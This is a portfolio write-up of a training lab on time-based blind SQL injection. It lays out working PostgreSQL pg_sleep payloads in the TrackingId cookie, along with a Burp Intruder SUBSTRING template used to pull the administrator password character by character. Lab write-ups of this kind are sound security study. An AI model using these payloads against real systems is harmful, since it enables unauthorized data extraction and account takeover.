Portfolio / Labs / SQL Injection / Lab 15 — Blind SQL injection with time delays and information retrieval
Lab 15 — Blind SQL injection with time delays and information retrieval
⚪ 🟡 Medium📅 2026-05-19
📋 Finding Summary
Field
Value
Type
Web App
Severity
🟡 Medium
CVE / CWE
CWE-89
Date
2026-05-19
🔍 Description
Blind SQL injection with time delays and information retrieval occurs when a web application is vulnerable to SQL injection but neither query results nor error messages are reflected in the HTTP response. An attacker can infer database contents purely by measuring server response times: a true condition triggers a deliberate sleep, while a false condition responds immediately. By chaining conditional time-delay payloads with functions such as PostgreSQL’s SUBSTRING() and pg_sleep(), the attacker can extract sensitive data one character at a time entirely through timing side-channels. In this lab, the TrackingId cookie value is embedded unsanitized into a SQL query executed by a PostgreSQL database, and the response time can be manipulated to leak the administrator account password from the users table.
🎯 End Goals
Confirm the TrackingId cookie is a blind SQL injection point with no visible errors
Fingerprint the database backend using database-specific time-delay payloads
Confirm the administrator user exists in the users table
Determine the exact length of the administrator’s password
Extract the full password character by character using a Cluster Bomb attack
Log in as administrator to solve the lab
🪜 Steps to Reproduce
Browse the lab and observe the server assigns a TrackingId cookie on initial page load
Navigate to the login page and confirm the browser sends the TrackingId on subsequent requests
In Burp Repeater, append a single quote and a garbled value to the TrackingId to confirm no errors are reflected — establishing this as a blind injection point
Try database-specific conditional time-delay payloads (Oracle, MSSQL, PostgreSQL, MySQL) to fingerprint the backend; observe that only the PostgreSQL pg_sleep() payload triggers a 10-second delay
Verify the false condition produces no delay, confirming the conditional behavior is working correctly
Inject a conditional payload checking username='administrator' and observe the delay confirms the user exists
Use a conditional LENGTH(password) payload to establish upper and lower bounds, then run a Burp Intruder Sniper attack iterating the length value to determine the exact password length
Configure a Cluster Bomb attack with two payload sets — position (1 to password length) and character set (a–z, 0–9) — using the SUBSTRING() conditional payload
Sort Intruder results by response time descending; each position has exactly one long-response entry identifying the correct character
Assemble the extracted characters in order to recover the full password
Log in at /login with administrator and the extracted password to solve the lab
🧠 Analysis
Step 1 — Observe the lab and identify the TrackingId cookie
Browsing the lab homepage showed it is marked “Not solved”. In Burp HTTP History, the initial GET / request returned 200 OK and the server issued a TrackingId cookie (e.g. eSBGMirVJ7nloipW). Navigating to /login confirmed the browser automatically sends this TrackingId on subsequent requests, meaning the value is processed server-side on every page load — making it a candidate injection point.




Step 2 — Observe behavior with a single quote (no visible errors)
To establish baseline behavior, a garbled TrackingId value with an appended single quote was sent: TrackingId=eSBGMirVJ7nloipWjkhiuh'. The server returned 200 OK and the page loaded normally with no error message. This does not confirm injection — it simply shows that errors are not reflected in the response. Standard error-based and UNION-based techniques will not work here; timing-based payloads are required to infer any information from the injection point.

Step 3 — Fingerprint the database with time-delay payloads
To identify the database backend, conditional time-delay payloads for each major database type were tested in turn:
Oracle: TrackingId=eSBGMirVJ7nloipW'||(SELECT CASE WHEN (1=1) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual)||' → responded immediately (not Oracle)
PostgreSQL: TrackingId=eSBGMirVJ7nloipW'||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)||' → 10,243 millis delay ✅ — confirmed PostgreSQL backend
To verify the conditional is working, the false condition was tested: TrackingId=eSBGMirVJ7nloipW'||(SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END)||' → responded immediately, confirming the delay only fires when the condition is true



Step 4 — Confirm administrator user exists
With the PostgreSQL conditional payload confirmed, the users table was queried for the administrator user: TrackingId=eSBGMirVJ7nloipW'||(SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)||'. The server responded after 10,202 millis — confirming the administrator user exists in the users table.

Step 5 — Determine the password length
To determine how many characters to extract, the password length was probed using LENGTH():
TrackingId=eSBGMirVJ7nloipW'||(SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)||' → 10,187 millis delay (length > 1 is true)
TrackingId=eSBGMirVJ7nloipW'||(SELECT CASE WHEN (username='administrator' AND LENGTH(password)>30) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)||' → 255 millis (length > 30 is false, so length ≤ 30)
Burp Intruder was then configured with a Sniper attack iterating the threshold value from 1 to 30, with a single concurrent request and a fixed delay between requests to allow accurate timing measurement. The results showed all payloads 1 through 20 triggered the ~10,000ms delay, while payload 21 responded in 232ms — confirming the password length is exactly 20.



Step 6 — Extract the password character by character (Cluster Bomb)
With the length confirmed at 20 characters, a Cluster Bomb attack was configured with two payload sets: Payload 1 = position (integers 1–20), Payload 2 = character set (a–z, 0–9). The payload template was: TrackingId=eSBGMirVJ7nloipW'||(SELECT CASE WHEN (SUBSTRING(password,§1§,1)='§a§') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator')||'.
The manual SUBSTRING test was first verified in Repeater: TrackingId=eSBGMirVJ7nloipW'||(SELECT CASE WHEN (SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator')||'. The Intruder results were sorted by response time descending — for each position, exactly one character produced a long delay, identifying the correct character. Assembling all 20 characters in order produced the password: 7p2q9lri9y63qwfg1nun



Step 7 — Log in and solve the lab
Logging in at /login with username administrator and the extracted password 7p2q9lri9y63qwfg1nun returned the “My Account” page, confirming successful authentication and solving the lab.

🎯 Impact
An attacker with access to the TrackingId cookie can extract arbitrary data from the database purely through timing side-channels, with no error messages or data reflected in the response. The attack requires no special privileges and can be fully automated with Burp Intruder. In this case, the administrator’s password was fully recovered from the users table, enabling complete account takeover. On a production system this technique could be used to exfiltrate any data accessible to the database user — including credentials, session tokens, API keys, or other sensitive records — one character at a time.